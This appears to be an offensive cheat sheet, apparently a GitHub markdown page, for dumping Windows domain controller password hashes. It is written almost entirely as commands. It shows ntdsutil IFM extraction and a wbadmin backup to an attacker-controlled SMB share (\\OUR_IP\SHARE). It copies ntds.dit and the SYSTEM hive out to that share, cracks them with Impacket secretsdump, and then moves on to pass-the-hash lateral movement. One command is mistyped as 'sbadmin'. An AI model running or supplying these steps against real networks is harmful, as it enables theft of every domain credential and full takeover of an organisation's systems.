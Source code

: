 # DUMP DOMAIN CONTROLLER HASHES LOCALLY WITH NTDSUTIL

## required files: 

### 1) C:\windows\NTDS\ntds.dit

### 2) C:\windows\system32\config\SYSTEM

### 3) C:\windows\system32\config\SECURITY

## Locating the ntds custom location: reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"

#### 1) powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"

#### 2) Transfer them to attacking machine

#### 3) python3 Impacket-Secretsdump.py -security /path/to/SECURITY -system /path/to/SYSTEM -ntds path/to/ntds.dit local

# DUMP DOMAIN CONTROLLER HASHES WITH WBADMIN

#### 1) Create an new user that maches the "force user" parameter in the /etc/samba/smb.conf file:

#### adduser smbuser

#### smbpasswd -a smbuser

#### sudo service smbd restart 

#### 2) net use k: \\OUR_IP\SHARE /user:smbuser smbpass (Mount the share)

#### 3) echo "Y" | wbadmin start backup -backuptarget:\\OUR_IP\SHARE -include:c:\windows\ntds (Backup NTDS folder)

#### 4) sbadmin get versions (Retrieve the version of the backup)

#### 5) echo "Y" | wbadmin start recovery -version:10/01/2020-14:23 -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl (Restore the NTDS file, specifying the backup version)

#### 6) reg save HKLM\SYSTEM C:\system.hive (Export the system hive)

#### 7) cp ntds.dit \\OUR_IP\SHARE\NTDS.dit

#### 8) cp system.hive \\OUR_IP\\SHARE\system.hive

#### 9) impacket-secretsdump -ntds NTDS.dit -system system.hive LOCAL

#### 10) Do a Pass-the-Hash attack with wmiexec/smbexec/psexec or evil-winrm 

#### 11) PROFIT
